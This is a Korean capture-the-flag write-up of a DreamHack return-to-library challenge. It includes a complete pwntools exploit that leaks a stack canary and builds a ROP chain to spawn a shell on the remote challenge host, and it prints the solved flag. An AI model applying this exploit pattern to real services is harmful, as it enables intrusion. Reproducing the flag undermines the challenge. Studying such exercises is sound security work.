




# B1 · Return to Library

### 1. 문제 확인

`pwnable` 분류의 B1 문제로, NX가 걸려 스택에 셸코드를 올려 실행할 수 없다. 대신 바이너리·라이브러리에 이미 존재하는 코드 조각(가젯)과 함수(`system`)를 반환 주소로 이어 붙여 `system("/bin/sh")`을 호출하는 **RTL(Return-to-Library, ret2system)** 공격을 사용한다.

<p align="center">
  
</p>

### 2. 실행 시 주의 — 로컬에 ELF 바이너리가 있어야 한다

익스 코드 첫 줄 `e = ELF('./rtl')`은 **로컬 바이너리 파일을 읽어** `system@plt` 같은 주소를 뽑는다. 따라서 실행하는 위치(여기서는 도커 컨테이너의 작업 폴더)에 **`rtl` 파일이 반드시 있어야** 한다.

```bash
# 컨테이너 안에서 확인
ls -l /work/rtl
```

맥 등 호스트에만 있다면 컨테이너로 복사한다.

```bash
# 호스트(맥) 터미널에서
docker cp rtl <컨테이너ID>:/work/rtl
```

이 바이너리는 `No PIE (0x400000)`라 주소가 고정이므로, 로컬에서 뽑은 주소를 원격에도 그대로 쓴다.

### 3. 주소 확인 — 가젯과 함수 주소 수집

페이로드에 필요한 주소 4개를 `ROPgadget`·`objdump`로 수집한다.

<p align="center">
  
</p>

```bash
ROPgadget --binary ./rtl --string "/bin/sh"   # /bin/sh 문자열
ROPgadget --binary ./rtl | grep "pop rdi"     # pop rdi ; ret 가젯
ROPgadget --binary ./rtl | grep ": ret"       # 단독 ret 가젯 (정렬용)
objdump -d ./rtl | grep "<system@plt>:"       # system@plt
```

| 용도 | 주소 | 비고 |
|---|---|---|
| `"/bin/sh"` 문자열 | `0x400874` | `system`의 인자 |
| `pop rdi ; ret` | `0x400853` | 스택 값을 `rdi`로 옮기는 가젯 |
| `ret` | `0x400596` | 스택 정렬 보정용 (단독 `ret`이면 아무거나) |
| `system@plt` | `0x4005d0` | `system` 호출 |

- **`system@plt`를 쓰는 이유**: 동적 링크 바이너리라 `system` 본체는 libc에 있고 실행 때마다 위치가 바뀐다. 그래서 바이너리 안 고정 주소인 **PLT**(Procedure Linkage Table, 외부 함수로 가는 관문)를 호출하면, 내부적으로 실제 `system`으로 연결된다.
- **`/bin/sh`가 바이너리 안에 있는 이유**: 소스에서 `const char *binsh = "/bin/sh";`로 문자열을 넣어 뒀기 때문에 `search`/`ROPgadget`로 바로 찾을 수 있다. (`search`로 찾으면 읽기·실행 매핑과 읽기·쓰기 매핑에 같은 문자열이 두 주소로 보이기도 하는데, 실제 파일상 문자열은 하나다.)

### 4. 익스플로잇 코드

카나리를 leak해 복원한 뒤(앞선 문제에서 다룬 방식), 반환 주소부터 `ret → pop rdi → /bin/sh → system@plt`로 ROP 체인을 올린다.

<p align="center">
  
</p>

```python
#!/usr/bin/env python3
from pwn import *

e = ELF('./rtl')
p = remote('host3.dreamhack.games', 12960)   # process('./rtl') → remote

def slog(name, addr): return success(': '.join([name, hex(addr)]))

# [1] Leak canary
buf = b'A' * 0x39
p.sendafter(b'Buf: ', buf)
p.recvuntil(buf)
cnry = u64(b'\x00' + p.recvn(7))
slog('canary', cnry)

# [2] Exploit
system_plt = e.plt['system']
binsh      = 0x400874
pop_rdi    = 0x0000000000400853
ret        = 0x0000000000400854   # pop rdi 다음 바이트도 단독 ret

payload  = b'A'*0x38 + p64(cnry) + b'B'*0x8
payload += p64(ret)          # ★ movaps 정렬 보정
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system_plt)

p.sendafter(b'Buf: ', payload)
p.interactive()
```

코드에서 짚을 점만 간단히:

- **`sendafter(b'Buf: ', ...)`** = `Buf: ` 출력을 기다렸다가 그 뒤에 입력을 보냄. **`recvuntil(buf)`** = 방금 보낸 입력이 그대로 에코된 부분을 걷어내 수신 커서를 카나리 **바로 앞**에 맞춤.
- **`u64(b'\x00' + p.recvn(7))`** — 카나리는 8바이트인데 최하위 바이트가 항상 `\x00`이라 출력이 거기서 끊긴다. 흘러나온 위쪽 7바이트 앞에 `\x00`을 다시 붙여 8바이트로 복원. (`recvn(7)`은 개행과 무관하게 **정확히 7바이트** 수신, `u64`는 바이트→숫자 **u**npack, `p64`는 숫자→바이트 **p**ack.)
- `ret`은 `0`으로 비워 두면 `0`번지로 점프해 죽으므로 **실제 `ret` 가젯 주소로 채워야** 한다.

### 5. movaps 스택 정렬 — `ret` 하나를 더 넣는 이유

`system`에 들어갈 때 **스택(rsp)이 16의 배수여야** 한다(System V AMD64 규약). `system` 내부의 `movaps` 같은 SSE 명령이 16정렬을 전제로 동작하기 때문에, 어긋난 상태로 진입하면 **Segmentation Fault**가 난다.

정렬이 어긋나는 흐름을 짚으면:

```
... b'B'*0x8        ← SFP
p64(pop_rdi)   ← main의 ret이 여기로 점프
p64(binsh)     ← pop rdi 가 이 값을 rdi로 꺼냄  (스택 한 칸 소비)
p64(system_plt)← pop_rdi의 ret 이 여기로 점프 = system 진입
```

- `pop rdi`가 스택 맨 위 주소(`/bin/sh`)를 **rdi로 pop**하면서 스택을 한 칸(8바이트) 소비한다.
- 원래 `call system`이었다면 `call`이 반환주소 8바이트를 **push**하며 진입 정렬을 맞춰 주지만, ROP는 **`ret`로 진입**해 그 push가 없다. 그래서 위 `pop`·`ret`들을 거치는 동안 `system` 진입 시점의 rsp가 **16배수에서 8만큼 어긋난** 채 도착할 수 있다.
- 이때 체인 맨 앞에 **`ret` 하나를 추가**하면, `ret`이 스택을 8바이트 더 소비(rsp +8)해 **어긋난 8을 원상복구** → `system` 진입 시 16정렬이 맞아 `movaps`가 터지지 않는다.

즉 `p64(ret)`은 아무 연산 없이 **다음으로 바로 넘기면서 rsp만 8 보정**하는 패딩 역할이다. 정렬이 이미 맞으면 빼도 되고, `movaps`에서 죽으면 넣어 해결한다.

### 6. 실행 결과

체크섹에서 `NX enabled`(스택 셸코드 불가 → RTL 사용)와 `No PIE`(주소 고정)를 확인할 수 있고, 페이로드를 보내면 셸이 열려 `cat flag`로 FLAG를 획득한다.

<p align="center">
  
</p>

```text
DH{13e0d0ddf0c71c0ac4410687c11e6b00}
```

위 값을 DreamHack 문제 페이지의 FLAG 입력란에 붙여 넣어 제출한다.

### 7. 정리

- **NX가 켜져 스택 셸코드가 막히면**, 바이너리·libc에 있는 코드(가젯·`system`)를 반환 주소로 이어 붙이는 **RTL(ret2system)**로 우회한다.
- 64비트는 첫 인자를 `rdi`로 넘기므로 `pop rdi ; ret` 가젯으로 `/bin/sh` 주소를 `rdi`에 넣고 `system@plt`를 호출한다.
- `system`은 **`ret`로 진입**하므로 `call`이 해주던 8바이트 정렬 보정이 없다. `movaps`에서 죽으면 체인 앞에 **`ret` 가젯 하나**를 넣어 rsp를 8 맞춰 준다.
